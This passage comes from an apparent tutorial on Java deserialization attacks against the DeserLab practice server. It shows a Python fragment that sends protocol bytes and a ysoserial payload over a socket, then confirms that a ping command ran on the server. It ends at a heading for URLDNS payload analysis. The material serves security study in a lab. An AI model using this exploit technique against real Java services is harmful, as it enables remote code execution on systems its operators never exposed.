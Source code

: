 ```python

data = '\x77 \x06' #depends on username 06 is string length +2
data2 = '\x00 \x04 \x74 \x65 \x73 \x74' #00 04 is string length, then 4 bytes T E S T
s.sendall(data)
s.sendall(data2)

f = open(payload, "rb") #ysoserial payload without first 4 bytes
c = f.read()
s.send(c[4:])
```

As previously mentioned , it contains all structures dumped by the SerializationDumper tool until the hashed string, which is replaced by the ysoserial payload without its first 4 bytes (aced0005)

Let’s now listen to any ICMP packets on the loopback (127.0.0.1) interface while attacking the DeserLab server using our freshly prepared exploit.

![](./assets/15.png)



run the script

```bash
python serialization.py
```



We can observe that the server received the connection and ping was executed!

![](./assets/16.png)





#### Analysis of URLDNS Payload
